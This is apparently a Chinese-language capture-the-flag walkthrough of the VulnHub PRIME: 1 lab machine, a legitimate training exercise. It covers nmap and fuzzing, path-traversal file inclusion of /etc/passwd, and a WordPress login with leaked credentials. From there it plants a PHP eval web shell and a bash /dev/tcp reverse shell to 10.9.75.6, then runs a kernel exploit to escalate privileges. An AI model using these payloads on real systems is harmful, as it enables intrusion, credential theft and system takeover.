

> 靶机文档：[PRIME: 1](https://www.vulnhub.com/entry/prime-1,358/)
>
> 下载地址：[**Download (Mirror)**]( https://download.vulnhub.com/prime/Prime_Series_Level-1.rar)

## 前期nmap扫描

### 主机发现

```bash
nmap -sn 10.9.75.0/24
```


发现开放了`22`和`80`端口

再扫一下服务端版本等详细信息

```bash
sudo nmap -sT -sV -O -p22,80 10.9.75.10
```


再进行一个UDP的扫描

```bash
sudo nmap -sU -p22,80 10.9.75.10
```


发现扫描结果都是一样的，并没有多余的端口开放

最后再使用nmap进行漏洞脚本扫描

```bash
└─$ sudo nmap --script=vuln  -p22,80 10.9.75.10
```


访问80端口，只有一张图片


## Web渗透

查看一个网页的源码，源码也很简单，没什么东西


### 目录爆破和模糊测试

```bash
dirb http://10.9.75.10  -o report/dirb
```


发现一个很明显的`wordpress`，

dirb也对二级或者三级目录进行了一个扫描

先访问一下`dev`目录


提示我们需要做一个深度挖掘

使用`dirb`指定后缀名进行扫描，发现一个`secret.txt`文件

```bash
 dirb http://10.9.75.10  -X .zip,.txt -o report/dirbveryhard.txt
```


使用 `curl`命令访问这个文件

```bash
curl http://10.9.75.10/secret.txt
```


提示说对找到的`php`页面做模糊测试

给到一个链接`https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web`是做基于Web的模糊测试。

指定`php`后缀扫描，只发现两个 `index.php`是访问`80`端口出现的那个图片界面


然后使用`wfuzz`进行模糊测试

> [WFUZZ教程](https://blog.csdn.net/JBlock/article/details/88619117)
>
> https://wfuzz.readthedocs.io/en/latest/


对`image.php`做模糊测试找不到，后来对`index.php`做模糊测试，成功找到。

```bash
└─$ wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hw 12 http://10.9.75.10/index.php?FUZZ=something


--hw 12  是过滤器的用法
```


`?file`

查看`location.txt`

```bash
curl http://10.9.75.10/index.php?file=location.txt
```


提示说使用`secrettier360`参数在其他`php`页面

前面总共就扫出来两个`php`页面

```bash
 curl http://10.9.75.10/image.php?secrettier360
```


### 文件包含利用

提示说最终得到了正确的参数，可以尝试一下能不能文件包含

```bash
curl http://10.9.75.10/image.php?secrettier360=../../../../../etc/passwd
```


有`bash`环境的就只有两个，后期可以考虑看能否利用


然后在`saket`用户的家目录里面有一个`password.txt`文件


访问一下，看看


得到的密码：`follow_the_ippsec`

现在这条路已经走不通了，回过头去，找其他线索

这里得到的密码也可以去试试ssh能不能能成功，事实上这里是不通的，主要是得有这个想法，得能想到这一点，这个是关键所在

### wordpress后台利用

用户枚举

```bash
sudo wpscan --url http://10.9.75.10/wordpress/ -e u
```


`http://10.9.75.10/wordpress/wp-admin/`

账密：`victor:follow_the_ippsec`

成功登录后台


寻找能够上传的地方

写入一句话`<?php @eval($_REQUEST['saury']) ?>`


触发地址：`wordpress/wp-content/themes/twentynineteen/secret.php`


成功GetShell，但是不稳定 不持久（网络环境变化 杀毒软件等等）

使用反弹


```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.75.6/1234 0>&1'"); ?>
```




访问`http://10.9.75.10/wordpress/wp-content/themes/twentynineteen/secret.php`触发反弹Shell


### 权限提升

```bash
sudo -l
```


需要密码，使用上面得到的密码并不能成功


查看内核版本

```bash
uname -a
```


搜索EXP

```bash
searchsploit Linux ubuntu 4.10.0-28
```


```bash
searchsploit Linux ubuntu 4.10.0-28 -m 45010


-m 将文件下载下来
```

查看该EXP


编译

```bash
 gcc 45010.c -o 45010
```


获取flag

```bash
cd  /root
```


